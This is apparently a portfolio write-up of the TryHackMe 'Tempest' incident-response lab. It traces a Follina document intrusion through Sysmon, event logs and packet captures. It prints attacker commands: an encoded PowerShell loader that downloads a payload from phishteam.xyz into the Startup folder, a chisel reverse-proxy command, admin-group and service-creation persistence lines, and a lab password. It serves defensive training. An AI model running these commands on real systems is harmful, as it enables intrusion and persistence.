



# Tempest (TryHackMe SOC Investigation Lab)

_A hands-on DFIR/SOC project simulating a full intrusion chain: malicious document → staged payloads → C2 traffic analysis → internal recon → privilege escalation → persistence._

---

## Table of Contents

- [Project Summary](#project-summary)  
- [Skills Demonstrated](#skills-demonstrated)  
- [Investigation Process](#investigation-process)  
  - [Stage 1: Initial Triage](#stage-1-initial-triage)  
  - [Stage 2: Stage-2 Execution (Task 5)](#stage-2-stage-2-execution-task-5)  
  - [Stage 3: Malicious Document Traffic (Task 6)](#stage-3-malicious-document-traffic-task-6)  
  - [Stage 4: Internal Reconnaissance (Task 7)](#stage-4-internal-reconnaissance-task-7)  
  - [Stage 5: Privilege Escalation (Task 8)](#stage-5-privilege-escalation-task-8)  
  - [Stage 6: Actions on Objective & Persistence (Task 9)](#stage-6-actions-on-objective--persistence-task-9)  
- [Key Artifacts (IOCs)](#key-artifacts-iocs)  
- [Lessons Learned](#lessons-learned)  
- [What I’d Improve Next Time](#what-id-improve-next-time)  
- [References](#references)  

---

## Project Summary

> **What is this project?**  
>  
> I completed the TryHackMe “Tempest” investigation lab. The scenario starts with a **malicious document** that launches a staged payload. Using **Sysmon**, **Windows Event Logs**, and **packet capture**, I rebuilt the attack chain: initial execution, stage-2 download + persistence, C2 beaconing with encoded parameters, internal discovery, privilege escalation using an impersonation privilege, and finally **persistence as SYSTEM** with new local users and a malicious Windows service.

---

## Skills Demonstrated

- Host-based investigation with **Sysmon** (Event IDs 1, 3, 11, 22)  
- EVTX parsing to CSV with **EvtxECmd** (Eric Zimmerman tools)
- Timeline analysis with **Timeline Explorer** (filters, pivots, fast searching in CSV outputs)
- Sysmon log visualization with **SysmonView** (first-time use)
- Network forensics with **Brim**/**Wireshark** (HTTP filtering, URIs, user-agent clues)  
- Decoding/triage of **base64-encoded C2 traffic**  
- Identifying droppers/loaders and staged payload behavior from logs  
- Pivoting via **hashes** (VirusTotal) to identify attacker tooling  
- Mapping attacker activity to security telemetry (**Windows Security Event IDs 4720, 4732**)  
- Writing clear, portfolio-ready investigation notes and IOCs (defanged)
- Using **Event Viewer** for Windows Security log pivots (e.g., 4720/4732)

---

## Investigation Process

### Stage 1: Initial Triage (Task 4)

- **Goal:** Confirm the malicious document executed and extract the *first-stage* command it launched.
- **Primary evidence:** **Sysmon** (Process Creation / Network / DNS) + timeline correlation.
- **Outcome:** Identified the initial loader behavior (base64 PowerShell) and the infrastructure used to fetch stage-2.

#### EVTX → CSV workflow (EvtxECmd → Timeline Explorer)

This was my first time using **EvtxECmd** and **Timeline Explorer**. I exported `sysmon.evtx` to CSV first, then loaded the CSV into Timeline Explorer for fast filtering and searching.

```powershell
PS C:\Tools\EvtxECmd> .\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\sysmon.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csvf sysmon.csv
EvtxECmd version 1.0.0.0
```

> **Why it matters:** Timeline Explorer makes it much easier to pivot across columns (command lines, hashes, parents/children, DNS, etc.) than raw Event Viewer scrolling.


#### Key findings
- **Malicious document:** `free_magicules.doc`
- **Compromised user / host:** `TEMPEST\\benimaru` on `benimaru-TEMPEST`
- **Observed parent process:** `WINWORD.EXE` (PID `496`)
- **Resolved infrastructure:** `phishteam.xyz` → `167.71.199.191`
- **Base64 encoded string:** `JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg`
- **Exploit leveraged:** `CVE-2022-30190` (commonly referred to as *Follina*) — Word triggers code execution via MSDT/URL handler abuse.
- **Stage-1 payload behavior:** The document launched an **encoded (base64)** PowerShell command. When decoded, it:

  1. Switches into the user’s **Startup** folder under *AppData*  
  2. Downloads `update.zip` from attacker infrastructure  
  3. Extracts it into Startup (persistence-by-startup)  
  4. Deletes the zip to reduce obvious artefacts

#### Decoded stage-1 PowerShell (core action)

```powershell
$app=[Environment]::GetFolderPath('ApplicationData');
cd "$app\Microsoft\Windows\Start Menu\Programs\Startup";
iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip;
Expand-Archive .\update.zip -DestinationPath .;
rm update.zip;
```

> **Why it matters:** Dropping into the Startup folder means the next login can re-trigger the malware chain automatically — a simple but effective persistence trick.

---

### Stage 2: Stage-2 Execution (Task 5)

- **What happened:** The malicious document executed an encoded PowerShell command (base64).  
- **Decoded behavior (high level):**
  - Switches into the user Startup folder.
  - Downloads `update.zip` from attacker infrastructure.
  - Extracts it and deletes the zip afterward (covering tracks).
- **Key file write:**  
  - `C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.zip`
- **Stage-2 binary details (Sysmon pivot):**
  - Downloaded binary hash (SHA256):  
    `CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8`
  - C2 domain/port used by the stage-2 payload:  
    `resolvecyber[.]xyz:80`

---

### Stage 3: Malicious Document Traffic (Task 6)

- **Approach:** Used Brim to isolate HTTP activity by domain and read request metadata.  
- **Findings:**
  - Malicious payload URL embedded in the document:  
    `http://phishteam.xyz/02dcf07/index.html`
  - C2 traffic used **base64** encoding.
  - The binary used:
    - **Parameter containing command output:** `q`
    - **URI to fetch commands:** `/9ab62b5`
    - **HTTP method:** `GET`
  - **User-Agent clue:** `Nim httpclient/...` → strongly suggests attacker binary compiled with **nim**.

---

### Stage 4: Internal Reconnaissance (Task 7)

- **Sensitive data discovery:**
  - Attacker read a local script that contained credentials:
    - File read: `C:\Users\Benimaru\Desktop\automation.ps1`
    - Password discovered: `infernotempest`
- **Local port enumeration:**
  - A “remote shell-ish” listening port identified: `5985`  
    (commonly associated with WinRM)
- **Proxying for internal access:**
  - Reverse SOCKS proxy established using **chisel**:
    - Command observed:  
      `C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks`
    - Tool identification via SHA256 hash `8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451` pivot: **chisel**
- **Post-proxy auth method used:** `winrm`

---

### Stage 5: Privilege Escalation (Task 8)

- **New binary download for privesc:**
  - `spf.exe`  
  - SHA256: `8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D`
- **Tool name from hash pivot:** `printspoofer`
- **Privilege abused:** `SeImpersonatePrivilege`

- **Why `spf.exe` looks like a “launcher” here:**  
  It’s the privesc tool (PrintSpoofer). In this chain it was used to execute another payload (`final.exe`) as SYSTEM — so it behaves like a *privilege escalation launcher*, not a typical “dropper” that writes files everywhere.

- **Follow-on binary used for C2 after privesc:** `final.exe`
- **Different port used:** `8080`

---

### Stage 6: Actions on Objective & Persistence (Task 9)

- **Account creation (SYSTEM context):**
  - Accounts created: `shion`, `shuna`  
  - Missing option that caused earlier failures: `/add`
  - Windows Security event for account creation: `4720`
- **Privilege / group manipulation:**
  - Command used to add to local admins:  
    `net localgroup administrators /add shion`
  - Windows Security event indicating added to a sensitive local group: `4732`
- **Persistence mechanism (service creation):**
  - Persistent admin access via new service pointing to the payload:
    - `C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto`

---

## Key Artifacts (IOCs)

> Defanged for safe sharing.

### Domains / URLs
- `phishteam[.]xyz` (malicious doc payload hosting)  
- `resolvecyber[.]xyz` (C2)  
- Example C2 path: `/9ab62b5`  
- Example parameter used for output: `q=<base64...>`

### Files / Paths
- Startup artifact:  
  `C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.zip`
- Privesc tool: `spf.exe`  
- Post-privesc payload: `C:\ProgramData\final.exe`

### Hashes (SHA256)
- Stage-2 binary: `CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8`  
- PrintSpoofer (`spf.exe`): `8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D`

### Ports
- `80` (HTTP C2 traffic)  
- `8080` (post-privesc C2 traffic)  
- `5985` (WinRM-related)

### Windows Event IDs
- `4720` (user account created)  
- `4732` (member added to local security-enabled group)

---

## Lessons Learned
- Tools like EvtxEcmd , Timeline Explorer , and SysmonView.
- “One-liner” PowerShell often hides **multiple steps** (download → extract → persist).  
- Brim is insanely fast for **HTTP triage** when you know how to filter `_path=="http"` + domain.  
- User-Agent strings can straight-up expose dev choices (For example, **nim**).  
- Priv esc tools often show up as “random EXE names” — **hash pivoting** is clutch.  
- The attacker’s “real goal” shows up after SYSTEM: **new users + admin group + service persistence**.

---

## What I’d Improve Next Time

- Build a clean timeline table (timestamp → event → evidence source).  


---

## References

- [TryHackMe – Tempest Incident room](https://tryhackme.com/room/tempestincident)
- [EvtxECmd (Eric Zimmerman) – GitHub](https://github.com/EricZimmerman/evtx)
- [Timeline Explorer (Eric Zimmerman tools page)](https://ericzimmerman.github.io/)
- [Sysmon View (SysmonTools) – GitHub](https://github.com/nshalabi/SysmonTools)
- [VirusTotal](https://www.virustotal.com/)
